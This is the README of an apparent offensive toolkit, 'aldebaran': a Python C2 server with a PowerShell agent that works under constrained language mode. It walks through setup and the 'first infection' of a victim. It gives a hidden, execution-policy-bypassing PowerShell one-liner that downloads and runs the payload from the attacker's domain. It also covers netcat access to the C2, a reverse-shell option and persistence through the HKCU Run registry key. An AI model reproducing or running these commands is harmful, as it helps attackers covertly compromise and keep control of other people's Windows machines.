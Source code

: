 # aldebaran

Python3 C2 server and agent payload.

Uses HTTP protocol with check-in. Works in env with powershell constrained language mode.

Agent code can be delivered as in memory only or as is e.g in a hta file.

darma is the server side code in python3

darpa is the agent side code in powershell

# Installation

## Requirements
Install requirements with pip3
```pip3 install -r requirements.txt```


## Certificates
You will have to create valid https certs.
Self signed certs wont work with powershell. will lose constrainedlanguagemode support to ignore ssl errors so use letsencrypt

use ```certbot certonly --manual -d www.your_domain.com --register-unsafely-without-email ```
and copy certs in "darma/certificates/" and/or adjust config.py to point to them
letsencrypt stores certs in /etc/letsencrypt/live/$domain


## Change domain in config.py to match the ones of the certificates

Change payload to point to your server url
## Change domain in :
```
darpa/main.ps1
darpa/oneline.ps1
darpa/pers.ps1

darma/rev.txt
```
``` find ./ -type f -exec sed -i -e 's/dummy\.domain\.com/www\.your_domain\.com/g' {} \; ``` might help
## Change password of c2 server
Change bcrpyt hash in "darma/config.py" with

```
#Python3
# To generate hash
# Mind the '\n'
password = b"super secret password\n"
hashed = bcrypt.hashpw(password, bcrypt.gensalt())
print(hashed)
```
## Serverside
To start server:

```
python3 darma/main.py
```
## Victim
Run agent on victim


## Attacker machine
Connect to server with netcat on port 51251 with attackers machine

```
nc ip_of_server 51251
```

enter password and menu will pop up

## Logging
If deamonized, logging can be found @ ```/var/log/aldebaran.log```

## First infection

Run the following command on victim in 'run' (win+r)

```
C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c "`$command = iwr -Uri https://www.your_domain.com/ -Method GET  -UseBasicParsing; iex `$command"
```
## Reverese shell
Change the ip and port in darma/resources/rev.txt to make the reverse shell option work

## Persistence

When the victim checks in for the first time, an entry in ```HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run``` will be added that downloads the oneliner version of the payload

## TODO
### Install script
